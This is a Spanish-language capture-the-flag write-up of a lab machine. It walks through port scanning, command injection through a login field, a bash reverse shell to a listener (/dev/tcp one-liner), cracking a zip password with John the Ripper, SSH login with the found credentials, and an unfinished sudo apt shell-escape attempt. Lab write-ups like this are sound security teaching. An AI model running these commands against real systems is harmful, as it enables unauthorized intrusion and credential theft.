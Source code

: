 # CTF - The Hackers Labs - Zapas Guapas

## 📑 Información General

- **Nombre:** Zapas Guapas
- **Dificultad:** Fácil
- **SO:** #Linux
- **Vulnerabilidad principal:** RCE vía upload y permisos mal gestionados
- **Fecha resolución:** 06/06/2025
- **MD5:** 5fb33aa94692884e98137a77aea6b435
- **Enlace:** https://thehackerslabs.com/zapas-guapas/

>Objetivo > Obtener las flags: 
> - 🚩 user.txt 
> - 🚩 root.txt

## 🔎 Reconocimiento

### Escaneo Inicial

IP máquina víctima: **192.168.10.23**

Comprobamos la conectividad enviando un paquete `icmp` a dicha máquina. Además, en función del TTL sabremos distinguir el SO instalado en la misma. Dado que su TTL es 64, estamos frente a una máquina **Linux**.

![image](https://github.com/eliferrob/CTFs/blob/main/assets/Zapas%20Guapas%20(1).png)

### Escaneo de Puertos

A continuación, proseguimos con un escaneo de puertos. El resultado revela que los puertos **22** y **80** se encuentran abiertos y accesibles.

```bash
nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 192.168.10.23
```

![image](https://github.com/eliferrob/CTFs/blob/main/assets/Zapas%20Guapas%20(2).png)

### Enumeración de Servicios

| Puerto | Servicio |    Versión    |    Notas     |
| ------ | -------- |:-------------:|:------------:|
| 22     | SSH      | OpenSSH 9.2p1 |      -       |
| 80     | HTTP     | Apache 2.4.57 | Servidor web |

## 🌐 Exploración

### Reconocimiento Web

Introducimos la IP de la máquina víctima en el navegador para dirigirnos al sitio web. Analizamos el código fuente, pero no encontramos nada relevante a primera vista.

![image](https://github.com/eliferrob/CTFs/blob/main/assets/Zapas%20Guapas%20(3).png)
![image](https://github.com/eliferrob/CTFs/blob/main/assets/Zapas%20Guapas%20(6).png)

![image](https://github.com/eliferrob/CTFs/blob/main/assets/Zapas%20Guapas%20(7).png)

Emplearemos la herramienta **Gobuster** para hacer fuzzing y listar los directorios que contenga el sitio.

![image](https://github.com/eliferrob/CTFs/blob/main/assets/Zapas%20Guapas%20(5).png)

Encontramos dos ficheros interesantes: `/login.html` y `/nike.php`. Accedemos al primero y nos encontraremos con un panel de login.

![image](https://github.com/eliferrob/CTFs/blob/main/assets/Zapas%20Guapas%20(4).png)

Estudiando un poco con **Burp Suite** el envío de peticiones, descubro que al introducir cualquier cadena en el campo *password* se hace una llamada al fichero `/run_command.php` y se ejecuta como comando.

![image](https://github.com/eliferrob/CTFs/blob/main/assets/Zapas%20Guapas%20(8).png)

Probamos a visualizar el fichero `/etc/passwd` y, efectivamente, la web nos lo muestra.

![image](https://github.com/eliferrob/CTFs/blob/main/assets/Zapas%20Guapas%20(9).png)

Obtenemos 3 usuarios, **root**, **proadidas** y  **pronike**. 

### Intrusión con www-data

Ponemos la máquina atacante en modo escucha en el puerto 4444.

```bash
nc -lvnp 4444
```

Escribimos el siguiente comando en el campo de contraseña del panel de login para abrir una **reverse shell** y ejecutaremos algunos comandos para el tratamiento de la TTY.

```bash
bash -c "sh -i >& /dev/tcp/192.168.10.22/4444 0>&1"
```

Hemos conseguido la intrusión en la máquina víctima con el usuario **www-data**.

![image](https://github.com/eliferrob/CTFs/blob/main/assets/Zapas%20Guapas%20(10).png)

Exploramos un poco los directorios de **proadidas** y **pronike**, y vemos que tenemos acceso a un fichero en el `home` de pronike.

![image](https://github.com/eliferrob/CTFs/blob/main/assets/Zapas%20Guapas%20(11).png)

Seguimos explorando y encontramos un fichero llamado `importante.zip` en el directorio `/opt`. Nos movemos a ese directorio y levantamos temporalmente un servidor web con `python` para poder transferirlo a nuestra máquina atacante y descomprimirlo. 

Para levantar el servidor web, escribimos:

```bash
python3 -m http.server 8080
```

![image](https://github.com/eliferrob/CTFs/blob/main/assets/Zapas%20Guapas%20(12).png)

En nuestra máquina atacante ejecutamos:

```bash
wget http://192.168.10.23:8080/importante.zip
```

Intentamos descomprimirlo pero tiene contraseña, así que le aplicaremos fuerza bruta con **John The Ripper**.

![image](https://github.com/eliferrob/CTFs/blob/main/assets/Zapas%20Guapas%20(13).png)

## ⚔️ Explotación

Extraemos el hash del fichero con la herramienta `zip2john` y redireccionamos la salida a un fichero que llamaremos *"hash"*.

```bash
zip2john importante.zip > hash
```

![image](https://github.com/eliferrob/CTFs/blob/main/assets/Zapas%20Guapas%20(14).png)

Acto seguido, ejecutamos `john` para crackear el hash y averiguar su contraseña. Obtenemos una, **hotstuff**.

![image](https://github.com/eliferrob/CTFs/blob/main/assets/Zapas%20Guapas%20(15).png)

Volvemos a intentar descomprimir el fichero `importante.zip`, esta vez introduciendo la contraseña descubierta, y visualizamos el fichero que contiene.

![image](https://github.com/eliferrob/CTFs/blob/main/assets/Zapas%20Guapas%20(16).png)

Iniciamos sesión mediante **SSH** en la máquina atacante con el usuario **pronike** y la contraseña **pronike11**.

![image](https://github.com/eliferrob/CTFs/blob/main/assets/Zapas%20Guapas%20(17).png)

## 🔐Escalada de Privilegios

Ejecutamos el comando `sudo -l` para comprobar los privilegios del usuario con el que hemos hecho login y buscamos el binario GTFOBINS para ver podemos explotarlo.

![image](https://github.com/eliferrob/CTFs/blob/main/assets/Zapas%20Guapas%20(18).png)

Podemos usar el comando `apt` como el usuario **proadidas**.

```bash
sudo /usr/bin/apt changelog apt
!/bin/sh 
```

---

# Aclaración

A partir de aquí, me ha resultado imposible continuar. 

La ejecución del comando `sudo /usr/bin/apt changelog apt` me devolvía un error ya que los repositorios estaban desactualizados y no invocaba el pager `less`, por lo que no podía escribir `!/bin/sh` y abrir una shell como **proadidas**. Como es una máquina preparada, no sé hasta qué punto actualizarla puede romper el CTF, así que he decidido dejarlo aquí.

De todas formas, anexaré la continuación del Write Up de [beafn28](https://beafn28.gitbook.io/beafn28/writeups/the-hacker-labs/zapas-guapas), que lo explica muy bien.

¡Un saludo!
